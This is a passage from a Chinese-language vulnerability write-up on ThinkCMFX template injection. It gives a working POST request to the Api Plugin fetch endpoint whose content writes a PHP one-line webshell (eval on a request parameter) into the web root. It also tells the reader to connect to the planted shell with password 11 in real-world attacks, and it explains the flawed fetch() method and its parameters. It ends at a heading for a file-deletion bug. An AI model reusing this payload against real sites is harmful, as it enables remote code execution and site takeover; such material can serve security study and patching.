 简单讲解一下：content 我输入了php代码所以他会在本地跟路径创建一个一句话木马test.php

所以实战过程中。

连接马子：http://xxxxx.com/test.php 密码:11

即可getshell

![](images/15893432327341.jpg)


![](images/15893432370736.jpg)


#### 0x02.2 Api类模版注入1


```bash
url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
post:
templateFile=/../../../public/index
prefix=''
content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php>
```

同上一样，会在跟目录生成 马子 test1.php

0x02.3 漏洞原理

路径:ThinkCMFX\application\Comment\Controller\WidgetController.class.php

路径:ThinkCMFX\application\Api\Controller\PluginController.class.php

两处的漏洞原理都是一样的，所以我就选一处进行讲解了

路径:application\Comment\Controller\WidgetController.class.php

方法：public function fetch()

![](images/15893432665440.jpg)


从名字查看我们会发现他的3个参数

* $templateFile=模版地址
* $content=内容
* $prefix=前缀

* $templateFile就是我们要包含的文件了，我们必须包含一个不然，代码会报错，导致无法写shell
* $content 我们写马子的地方
* $prefix 忽略他即可，没有用的

在代码中我们看到一个 $templateFile 给parseTemplate函数包含了，这里我们也不用管他，因为他的作用就是判断一下文件是否存在而已，所以我们在实战的时候，可以找到一处html文件包含即可

而tp的模版引擎 使用的是 smarty 而smarty中只要可控制内容的key 与 value 即可写入shell命令，所以同理可得，tp的 $content 我们可控 = 有模版注入

#### 0x03 任意文件删除-只能windows删除

0x03.1 漏洞演示
